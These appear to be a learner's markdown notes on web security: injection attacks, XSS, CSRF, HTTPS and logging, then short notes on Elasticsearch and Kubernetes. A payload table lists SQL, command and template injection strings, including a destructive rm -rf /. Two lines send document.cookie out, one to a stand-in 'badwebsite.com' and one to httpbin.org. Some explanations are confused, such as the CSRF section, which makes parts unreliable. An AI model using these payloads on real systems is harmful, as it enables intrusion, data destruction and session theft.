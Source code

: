 # Junior to Senior

## Security

**Injection attacks** are a major web security risk, where attackers supply malicious input that gets executed as code or commands. This can lead to unauthorized access, data breaches, or full system compromise.

---

### Common Injection Attack Types

| Type               | What It Targets             | Example Payload                          | Typical Impact                            |
| ------------------ | --------------------------- | ---------------------------------------- | ----------------------------------------- |
| SQL Injection      | Databases                   | ` ' OR 1=1 --``'; DROP TABLE users; -- ` | Bypass login, steal/alter data, data loss |
| Command Injection  | Operating system commands   | `; rm -rf /`                             | Run arbitrary commands, system takeover   |
| XSS                | User browsers via web pages | `alert('XSS')`                           | Steal cookies, impersonate, deface        |
| LDAP Injection     | Directory services          | `` `\*)(        (user=\*))` ``           | Unauthorized directory access             |
| Template Injection | Template engines            | `{{7*7}}`                                | Remote code execution, data exposure      |

---

### How Attacks Happen

- Attackers exploit code that directly uses user input in queries or commands without validation.
- Example (SQL Injection):
  ```sql
  -- User input manipulates query logic
  sql = "SELECT * FROM users WHERE username = '" + user + "' AND password = '" + pass + "'"
  ```

---

### Real-World Impact

- Major breaches: universities, retailers, tech companies, and more have lost millions of records to injection flaws.

---

### Prevention Tips

- **Validate & Sanitize Inputs:** Only allow expected data types and values; escape special characters[1][6].
- **Parameterized Queries:** Always use prepared statements or ORM methods for database access[4][6].
- **Avoid Dangerous Functions:** Never use `eval()`, `exec()`, or similar on user input[6].
- **Treat All Data as Untrusted:** Validate everything—forms, cookies, headers, files[6].
- **Security Tools:** Regularly scan code and dependencies (e.g., `npm audit`, `snyk test`)[4][7].
- **Static/Dynamic Analysis:** Use code analysis and vulnerability scanners to catch flaws early[6].

---

### Quick Reference: Injection Prevention

| Injection Type     | Main Defense                      |
| ------------------ | --------------------------------- |
| SQL Injection      | Parameterized queries, validation |
| Command Injection  | Input sanitization, avoid shell   |
| XSS                | Output encoding, validation       |
| LDAP Injection     | Parameterized queries, validation |
| Template Injection | Safe template engines, validation |

---

### Logging/moniotoring

system tampering without beiung detected

- able to detect issues quickly

```
npm install winston // monitoring middleware, can also log errors
npm install morgan // monitoring middleware
```

### HTTPS

- SSL + TLS certificates
  information from client to server is secure, encrypted
- HTTP sends information in plain text

**letsencrypt.org**

- get your TLS certificate here
- will prevent most sites from tampering
- easy to set up

**cloudflare**

- HTTPS out of the box
- helps with DDOS

**DDOS**

- when a bunch of computers send multiple requests to the server at the same time
- server could crash - will take down the website

### XSS (Cross Site Scripting)

- used for session hijacking
- when an application includes untrusted data in a new webpage without proper validation or escaping
- allows attacker to execute scripts in a visitor's browser

```
window.location = 'badwebsite.com?cookie = ' + document.cookie (can steal login info using cookie)

```

takes tghe user to a new website

with the cookie, you can log information

- can prevent by sanitizing inputs

### CSRF (Cross Site Request Forgery)

- create a bad URL that has bad ccode in it(scam emails)
- using query parameters and get/post requests(along with cookies)

```
fetch('httpbin.org/post', { method: 'POST', body: document.cookie })
```

prevent using Content-Security Policy in the headers

- allows only the api in the content security policy to make changes
- cookies add extra layer to make things secure

### Preventing XSS and CSRF

- Clientside input validation
- Sanitize inputs
- No `eval()`
- No `document.write()`
- Set Content Security Policy headers
- Set Secure + HTTP only cookies

### What is Elastisearch?

- Elasticsearch is predominantly used for fast, scalable full-text search and real-time analytics on large volumes of data. 
- Its main applications include powering search features for websites and applications, centralized log and event data analysis, infrastructure and application monitoring, security analytics, and business intelligence dashboards. 
- It excels at enabling users to quickly search, retrieve, and analyze structured and unstructured data across diverse use cases, such as e-commerce product search, enterprise document search, and operational monitoring

Netflix: For monitoring, customer service operations, and security logs.

eBay: For text search and analytics across business-critical data.

Walmart: For real-time insights into customer purchasing patterns and store performance

### What is Docker?

### What is Kubernetes?
- Manages and automates the deployment, scaling, networking, and operation of containers across clusters of machines

- Used to run and coordinate many containers (often from Docker or other runtimes) across multiple servers, providing high availability, scaling, and self-healing

Key features:
- Orchestrate and scale containers
- Load balancing, service discovery
- Automated rollouts, monitoring, and self-healing

